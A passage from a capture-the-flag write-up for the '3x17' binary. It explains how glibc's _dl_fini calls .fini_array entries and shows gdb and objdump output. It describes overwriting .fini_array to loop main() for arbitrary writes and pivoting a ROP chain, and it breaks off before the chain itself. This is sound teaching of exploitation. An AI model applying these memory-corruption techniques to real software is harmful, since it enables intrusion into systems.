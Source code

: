 ![Backtrace of a destructor function](/images/fini_test_backtrace.png)

Using `up` and `context`, we see that the following code is executed (Glib version 2.35) in ./elf/dl-fini.c:
```c
    139   unsigned int i = (l->l_info[DT_FINI_ARRAYSZ]->d_un.d_val
    140                     / sizeof (ElfW(Addr)));
 →  141   while (i-- > 0)
    142     ((fini_t) array[i]) ();
```

In the challenge we can see similar behavior. If we break at the `.fini_array` element, we reach the following backtrace:
```bash
echo -e "0x4b4000\na" > input
gdb ./3x17 -ex "b*0x0401b00" -ex "r < input"  -ex "up" -ex "context"
```
![Backtrace of 3x17](/images/3x17_backtrace.png)

```mips
     0x402988                  call   QWORD PTR [rbp+rbx*8+0x0]
 →   0x40298c                  sub    rbx, 0x1
     0x402990                  cmp    rbx, 0xffffffffffffffff
```
## Exploitation
A quick objdump shows us that the `.fini_array` section is at `0x4b40f0` and contains 2 pointers.
```bash
$ objdump -s -j .fini_array ./3x17
Contents of section .fini_array:
 4b40f0 001b4000 00000000 80154000 00000000  ..@.......@.....
```

To recap:
1. We can write 0x18 bytes to an arbitrary address with the `main()` function
2. The `_dl_fini()` function calls the two functions in the `.fini_array` section in reverse order

We can use this to create a loop that calls `main()` over and over again, by creating the following .fini_array:

| fini_array[0] | fini_array[1] |
| - | - |
| 0x402960 (_dl_fini) | 0x0401b6d (main) |

This allows us to write arbitrary data to any known writable address.

### Triggering a ROPchain
A problem we run into is that we don't know the address of the stack, so we can't write a ROPchain to the stack.
So we have to pivot to another writable address:
Luckily, when we call `fini_array[0]`, the `$rbp` register is set to `0x4b40f0` which is the address of the `.fini_array` section.
